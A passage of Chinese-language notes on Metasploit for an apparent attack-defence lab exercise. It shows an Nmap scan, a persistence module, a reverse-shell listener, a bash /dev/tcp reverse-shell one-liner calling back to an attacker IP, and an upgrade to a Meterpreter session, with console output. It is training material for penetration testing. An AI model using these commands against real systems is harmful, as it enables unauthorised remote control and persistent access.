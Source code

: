 **3.使用 Nmap 扫描**

在MSF框架中可以直接使用Nmap，输入命令`nmap -A 192.168.1.7`对靶机进行全面扫描，



### MSF权限维持

```
use exploit/windows/local/persistence_service
```








### 攻防演练MSF的一些命令

#### MSF管理shell

手动反弹shell

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 100.1.1.169
lhost => 100.1.1.169
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 100.1.1.169:4444
```

然后在已经拿到的靶机shell输入：

```
bash -i >& /dev/tcp/100.1.1.169/4444 0>&1
```

然后可以把权限修改为meterpreter（^Z表示ctrl+Z）

```
root@web01:/home/mason# ^Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter 
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 100.1.1.169:4433 
[*] Sending stage (980808 bytes) to 192.168.0.51
[*] Meterpreter session 2 opened (100.1.1.169:4433 -> 192.168.0.51:52976) at 2022-12-05 11:32:18 +0800
[*] Post module execution completed

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 1
[*] Starting interaction with 1...

root@web01:/home/mason# 
root@web01:/home/mason# ^Z
Background session 1? [y/N]  y
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
```
